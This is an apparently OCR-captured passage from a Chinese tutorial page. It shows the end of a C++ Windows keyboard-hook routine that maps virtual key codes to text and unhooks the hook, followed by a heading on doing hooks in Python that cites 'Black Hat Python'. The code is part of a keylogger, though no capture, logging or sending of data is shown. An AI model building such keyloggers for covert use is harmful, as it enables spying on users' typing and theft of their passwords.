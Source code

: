 ```
        // Windows Keys
    case VK_LWIN:     key = "[WIN]"; break;
    case VK_RWIN:     key = "[WIN]"; break;
    case VK_LSHIFT:   key = "[SHIFT]"; break;
    case VK_RSHIFT:   key = "[SHIFT]"; break;
    case VK_LCONTROL: key = "[CTRL]"; break;
    case VK_RCONTROL: key = "[CTRL]"; break;
        // OEM Keys with shift 
    case VK_OEM_1:      key = shift ? ":" : ";"; break;
    case VK_OEM_PLUS:   key = shift ? "+" : "="; break;
    case VK_OEM_COMMA:  key = shift ? "<" : ","; break;
    case VK_OEM_MINUS:  key = shift ? "_" : "-"; break;
    case VK_OEM_PERIOD: key = shift ? ">" : "."; break;
    case VK_OEM_2:      key = shift ? "?" : "/"; break;
    case VK_OEM_3:      key = shift ? "~" : "`"; break;
    case VK_OEM_4:      key = shift ? "{" : "["; break;
    case VK_OEM_5:      key = shift ? "\\" : "|"; break;
    case VK_OEM_6:      key = shift ? "}" : "]"; break;
    case VK_OEM_7:      key = shift ? "'" : "'"; break; //TODO: Escape this char: "
                                                        // Action Keys
    case VK_PLAY:       key = "[PLAY]";
    case VK_ZOOM:       key = "[ZOOM]";
    case VK_OEM_CLEAR:  key = "[CLEAR]";
    case VK_CANCEL:     key = "[CTRL-C]";

    default: key = "[UNK-KEY]";
        break;
    }
    return key;
}


//释放钩子
void unhookKeyboard()
{
    if (kKeyboardHook != 0)
    {
        UnhookWindowsHookEx(kKeyboardHook);
    }
    exit(0);
}

```



#### Python实现Hook

**参考书籍**

《python黑帽子--黑客与渗透测试编程之道》
